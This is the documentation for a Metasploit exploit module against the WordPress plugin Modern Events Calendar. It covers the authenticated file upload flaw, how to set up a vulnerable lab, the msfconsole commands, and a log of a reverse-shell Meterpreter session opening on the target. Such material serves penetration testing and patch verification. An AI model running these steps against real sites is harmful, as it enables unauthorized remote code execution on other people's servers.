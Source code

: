 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin Modern Events Calendar < 5.16.5.
This is due to an incorrect check of the uploaded file extension.
By using `text/csv` content-type in a request, it is possible to upload a .php payload as is is not forbidden by the plugin.
Finally, the uploaded payload can be triggered by a call to `/wp-content/uploads/<random_payload_name>.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of Modern Events Calendar plugin from [there]
(https://downloads.wordpress.org/plugin/modern-events-calendar-lite.5.16.2.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/wp_plugin_modern_events_calendar_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and Modern Events Calendar 5.16.2.
See the following output :

```
msf > use wp_plugin_modern_events_calendar_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(wp_plugin_modern_events_calendar_rce) > set rhost 192.168.1.12
rhost => 192.168.1.12
msf exploit(wp_plugin_modern_events_calendar_rce) > set username admin
username => admin
msf exploit(wp_plugin_modern_events_calendar_rce) > set password my_best_password
password => my_best_password
msf exploit(wp_plugin_modern_events_calendar_rce) > run

[*] Started reverse TCP handler on 192.168.1.35:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Uploading file 'wkook.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.1.12
[*] Meterpreter session 10 opened (192.168.1.35:4444 -> 192.168.1.12:34400) at 2021-07-12 14:20:43 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo 
Computer    : 66dd7f594749
OS          : Linux 66dd7f594749 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
meterpreter > 
```

